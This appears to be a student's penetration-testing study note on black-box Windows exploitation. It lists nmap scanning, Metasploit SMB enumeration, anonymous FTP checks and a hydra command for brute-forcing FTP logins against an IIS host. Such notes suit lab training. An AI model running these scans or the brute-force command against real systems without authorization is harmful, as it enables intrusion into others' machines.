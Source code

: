   

### **_==Windows Exploitation ( Black Box )==_**

> It’s simulated to a black box windows exploitation

  

- ==_Windows Black Box Penetration Test_==

> Security assessment whereby the penetration tester is not provided with any information regarding the target system , or network

> the process of penetration testing is , the way the penetration testing process should be ⇒
> 
> - if the pentest lead assigned u to do a exploitation , your job just to gain access to the system just
> - The post exploitation is the way to privis escalation .. etc.

  

- ==Windows Black Box==

> on This Step we enum info as much as possible of the target system by , port scanning , identify the services running , take notes about that , identify the target system ip , versions , type …etc.

  

- Port Scanning & Enumeration - Windows Black Box
    
    > first we need to find the target ip
    
    - `cat /etc/hosts` ⇒ and we can see the target ip
    
    > After we found the target ip , make a dir to make all thing organized , then we need enum this ip
    
    - `nmap -sS -sC -sV -O <target ip >` ⇒ to identify the open ports and what services are running on this port and find some banner information
    
    > If we found a open ports , we need to identify what is running on it so try every port , open it ping , try to login , visit it … etc.
    
    > then we should open msfconsole and search for exploit to this services on the open ports
    
    - `services postgresel start` && `msfconsole` && `workspace -a win-BlackBox`
    - If we Found SMB ⇒ `search smb_version` && `use auxiliary/scanner/smb/smb_version` && `set rhost <target ip >` && `run`
    
      
    
      
    

  

- Targeting Microsoft IIS FTP
    
    > ==On Port 21 Open and 80 and the service running is ⇒ Microsoft ftpd== && ==Microsoft-IIS httpd 7.5==
    
    > When u see a Microsoft ftpd , so think of the authenticated use can modify or upload via ftp , files and website files .
    
    - `ls -al /usr/share/nmap/scripts/ | grep ftp-` && `nmap -sV -p 21 - -script=ftp-anon <target ip>` ⇒ to search for nmap script related to ftp , and use ftp script to check if we can login using anonymous
    - `hydra -L /usr/share/wordlists/Metasploit/unix_users.txt -P /usr/share/wordlists/Metasploit/unix_password.txt <target ip > ftp` ⇒ to brute force the ftp login
    - After get the username and password ⇒ `ftp <target ip> <port>` , then enter the username and password
    